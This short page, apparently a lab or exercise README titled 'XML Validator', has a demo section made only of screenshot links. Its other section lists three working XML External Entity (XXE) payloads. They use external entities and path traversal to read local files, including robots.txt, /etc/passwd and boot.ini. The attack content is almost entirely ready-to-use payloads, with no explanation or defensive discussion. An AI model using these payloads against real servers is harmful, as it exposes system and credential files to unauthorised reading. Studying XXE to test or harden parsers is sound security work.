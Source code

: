 #### XML Validator

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

![](images/7.png)

- Payloads

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "robots.txt">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "/etc/passwd">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "../../../../boot.ini">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```
